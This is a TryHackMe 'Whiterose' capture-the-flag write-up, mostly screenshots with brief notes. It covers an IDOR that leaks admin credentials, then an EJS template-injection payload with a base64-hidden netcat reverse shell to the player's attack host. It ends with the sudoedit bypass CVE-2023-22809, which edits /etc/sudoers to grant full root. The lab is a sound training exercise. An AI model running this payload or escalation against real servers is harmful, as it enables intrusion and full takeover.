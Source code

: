 TryHackMe | Whiterose

## Recon: nmap scan

![Alt text for the image](nmap.png)

## Change config file /etc/hosts

![Alt text for the image](etc.png)

## The webpage

![Alt text for the image](webpage.png)

## Brute forcing directories and other things with ffuf and feroxbuster

![Alt text for the image](fuzz.png)

![Alt text for the image](fuzz1.png)

## Change config file /etc/hosts

![Alt text for the image](etc1.png)


## Web access with olivas credentials we where given by the room (Olivia Cortez:olivi8)
But we can take a look at the news history. This is set to ?c=5 during the visit. The parameter c can be checked for IDOR. (http://admin.cyprusbank.thm/messages/?c=5)

With the parameter value 0 we find the credentials of an admin user Gayle Bev. (http://admin.cyprusbank.thm/messages/?c=0)

![Alt text for the image](login_page.png)

![Alt text for the image](message.png)

![Alt text for the image](message1.png)

## Web Access Gayle Bev

We use the found credentials to log in as Gayle Bev and are successful. (Gayle Bev:p~]P@5!6;rs558:q)

![Alt text for the image](gayle_login.png)

We are now able to read the telephone numbers of Tyrell Wellick.

![Alt text for the image](flag1.png)

## Shell as web
We can set the customer's passwords here. What is noticeable is that the passwords are reflected. This immediately draws attention to XSS or SSTI.

We can know this website is vulnarable to SSTI because of this error

![Alt text for the image](server_error.png)

We can find SSTI payloads here: 
  
     https://github.com/mde/ejs/issues/720
     https://eslam.io/posts/ejs-server-side-template-injection-rce/

Next, we set up a listener and us the following payload to spawn a reverse shell.

## Generate a reverse shell

![Alt text for the image](reverse_shell_gen.png)

Encode it in base64 and add it to the payload belwo

![Alt text for the image](encoding.png)
    
    name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash"');//

![Alt text for the image](payload.png)

We should reveice back a connection like this

![Alt text for the image](netcat_listener.png)

We receive a connection back and are the user web. In the home directory of web we find the first flag. After we have received our reverse shell, we then upgrade it. 

![Alt text for the image](flag2.png)

## Upgrading our shell: Follow the steps in the link bellow:

    https://0xffsec.com/handbook/shells/full-tty/

![Alt text for the image](upgrade.png)

![Alt text for the image](upgrade1.png)

We can go to web home directory and find the second flag

## Privilege escelation

Whe can see what commands we can use root with

 ![Alt text for the image](shell_as_root.png)

You can use sudoedit as root without a password to modify the file /etc/nginx/sites-available/admin.cyprusbank.thm.
After some reasearch we find (https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
CVE-2023-22809 for sudoedit

After upgrading our shell 

we use this exploit to see the hash of root

To escalate our privileges to root, we attempt to edit the /etc/sudoers file.
    
    export EDITOR="vi -- /etc/sudoers"
    sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

The first part shows you how to get the hash.

 ![Alt text for the image](hash...png)

 ![Alt text for the image](root_hash.png)


The second part, here we target the line with the command allowing us to execute that specifies the sudoedit command:
    
    web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

and replace it with the following:

    web ALL=(root) NOPASSWD: ALL  

![Alt text for the image](edit.png)

## We are root!

Now we are able to execute any command as root without providing a password and use that to switch to the root user. 

![Alt text for the image](root.png)

To get our last flag

![Alt text for the image](falg3.png)
